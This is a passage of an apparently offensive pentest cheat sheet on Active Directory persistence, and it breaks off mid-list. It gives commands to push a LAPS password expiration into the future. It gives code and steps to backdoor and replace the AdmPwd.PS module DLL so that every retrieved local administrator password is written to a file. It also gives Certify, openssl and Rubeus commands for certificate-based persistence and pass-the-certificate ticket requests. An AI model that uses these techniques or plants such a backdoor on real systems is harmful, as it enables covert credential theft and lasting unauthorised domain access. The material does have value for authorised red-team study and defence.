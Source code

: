### Password access
#### Change the password expiration date into the future
```
Set-DomainObject -Identity <COMPUTER> -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

### Backdoor
- https://github.com/GreyCorbel/admpwd
- add the following after the first line.
- Recompile and replacet the dll ```C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\```
```
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);

var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);

WriteObject(pi);
```

### Active Directory Certificate Services
### PERSIST1 User account new certificate
- A certificate remains valid even if the target user account password is changed.
- If we compromise a user who has enrollment rights to an AD CS template that has the Client Authentication EKU enabled, we can request and use a certificate that will be valid until the expiry specified in the template

#### Request certificate
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME> /user:<SAMACCOUNTNAME>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

### Pass the certificate Request TGT
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

### PERSIST2 Machine Account new certificate
- Requirements
	- System rights on a domain joined machine 
	- Extended Key Usage: `Client Authentication`
	- Enrollment Rights a for domain computer
